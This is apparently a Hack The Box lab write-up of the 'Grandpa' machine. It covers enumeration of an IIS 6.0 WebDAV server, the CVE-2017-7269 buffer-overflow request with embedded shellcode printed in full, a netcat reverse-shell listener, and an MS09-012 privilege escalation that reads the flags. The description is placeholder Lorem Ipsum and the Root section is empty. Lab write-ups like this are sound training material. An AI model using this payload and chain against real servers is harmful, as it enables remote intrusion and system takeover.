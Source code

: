 ```yaml
---
title: Grandpa - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
image: images/grandpa_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/grandpa_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/grandpa]# nmap -Pn -n -sCV 10.10.10.14 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods:
    |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan:
    |   Server Type: Microsoft-IIS/6.0
    |   WebDAV type: Unknown
    |   Server Date: Wed, 03 Mar 2021 10:09:58 GMT
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:
  + http://10.10.10.14/_private (CODE:403|SIZE:1529)
  ==> DIRECTORY: http://10.10.10.14/_vti_bin/
  ==> DIRECTORY: http://10.10.10.14/images/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
  + Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV


2. WebDAV is open and the webserver is running IIS 6.0. Lets run davtest to see if we can upload any files.

    [root:/git/htb/grandpa]# davtest -url http://10.10.10.14/                                                                         (master✱)
      ********************************************************
       Testing DAV connection
      OPEN		SUCCEED:		http://10.10.10.14
      ********************************************************
      NOTE	Random string for this session: OXxuoxrUU
      ********************************************************
       Creating directory
      MKCOL		FAIL
      ********************************************************
       Sending test files
      PUT	cfm	FAIL
      PUT	pl	FAIL
      PUT	php	FAIL
      PUT	txt	FAIL
      PUT	html	FAIL
      PUT	cgi	FAIL
      PUT	asp	FAIL
      PUT	shtml	FAIL
      PUT	jhtml	FAIL
      PUT	jsp	FAIL
      PUT	aspx	FAIL

      *************************


3. Look for IIS 6.0 exploits.

  [root:/git/htb/grandpa]# searchsploit iis 6.0                                                                                     (master✱)
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                             |  Path
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
    --- snip ---
    Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                   | windows/remote/41738.py

  Trying the exploit gives nothing. Continue to google for IIS 6.0 reverse and I find a script that looks promising, run it.

  [root:/git/htb/grandpa]# python iis6_rev.py 10.10.10.14 80 10.10.14.8 4488                                                        (master✱)
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 1744
    If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

  [root:/git/htb/grandpa]# rlwrap nc -lvnp 4488                                                                                     (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.14] 1031
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv> whoami
      nt authority\network service


4. We are unable to read both user and root. Lets try the same exploit as Granny, MS09-012:

    [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS09-012/pr.exe .
    [root:/srv/pub-share]# chmod +x pr.exe
    [root:/srv/pub-share]# smbserver.py share .


    C:\Documents and Settings> //10.10.14.8/share/pr.exe "whoami"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:whoami
      nt authority\system

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Harry\Desktop\user.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Harry\Desktop\user.txt
      bdff5ec67c3cff017f2bedc146a5d869

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Administrator\Desktop\root.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Administrator\Desktop\root.txt
      9359e905a2c35f861f6a57cecf28bb7b



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

IIS 6.0 Reverse Shell:
  https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
